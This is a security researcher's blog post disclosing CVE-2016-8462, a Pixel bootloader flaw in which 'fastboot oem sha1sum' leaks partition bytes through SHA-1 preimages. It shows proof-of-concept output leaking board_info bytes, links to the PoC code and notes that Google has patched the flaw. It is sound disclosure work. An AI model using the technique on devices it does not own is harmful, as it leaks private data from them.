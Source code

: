 ```yaml
---
layout: post
title: fastboot oem sha1sum
author: Roee Hay
date: '2017-01-04'
tags:

---
```


In the [January 2017 Android Security Bulletin](https://source.android.com/security/bulletin/2017-01-01.html#id-in-bootloader), Google provided a patch to CVE-2016-8462, an interesting vulnerabiltiy in the Pixels' bootloader. I reported this issue to Google last December, but unfortunately got beat by Jon Sawyer ([@jcase](https://twitter.com/jcase)) and Sean Beaupre ([@firewaterdevs](https://twitter.com/firewaterdevs)), who reported it in October, so kudos to them!


Google Pixel's bootloader contains a proprietary fastboot oem command ('sha1sum'). This command accepts 3
arguments: partition name, size and offset, with the constraint that size >= offset. Thus, a physical attacker, a
malicious charger or a malicious host (with ADB access -- that can reboot the device to the bootloader) can easily
compute the preimage of the first bytes of any partition. This may allow the attacker to leak sensitive information
out of the device. In addition to the first bytes, one can conduct a preimage attack of higher offsets if a specific
pattern is (approximately) known , such as a known suffix or a prefix. 
What you can see below is the output of two
runs of my [PoC](https://github.com/roeeh/PoC/tree/master/CVE-2016-8462) against the `board_info` partition. The first run leaks bytes 0-7 ("HTC-BOAR") and the second run
leaks bytes 158-161 ("\xA2\x80\x00\x00")

{% highlight C %}


>> preimage.py board_info
> fastboot oem sha1sum board_info 0 1 = 7cf184f4c67ad58283ecb19349720b0cae756829 (1 byte )
00000000 : 48 H
> fastboot oem sha1sum board_info 1 1 = c2c53d66948214258a26ca9ca845d7ac0c17f8e7 (1 byte )
00000001 : 54 T
> fastboot oem sha1sum board_info 2 2 = f1dfdb58024fd801bb8d8d91b16183f255579149 (2 bytes )
00000002 : 43 C
00000003 : 2d -
> fastboot oem sha1sum board_info 3 3 = 16ad0e2f78e56b3d6dc93bd203e12b8118605de5 (3 bytes )
00000004 : 42 B
00000005 : 4f O
> fastboot oem sha1sum board_info 4 4 = 7e426c6d5f7b5ce99624a8e678a79828180bcd77 (4 bytes )
00000006 : 41 A
00000007 : 52 R
>> preimage.py board_info 4 158
> fastboot oem sha1sum board_info 158 158 = 45b1b0a4fe2bbefb1f7eb001b57bcb61a1d025b9 (158 bytes )
0000009e : a2 
0000009f : 80
000000a0 : 00
000000a1 : 00

{% endhighlight %}

Google's patch now prevents running the command on an arbitrary partition.

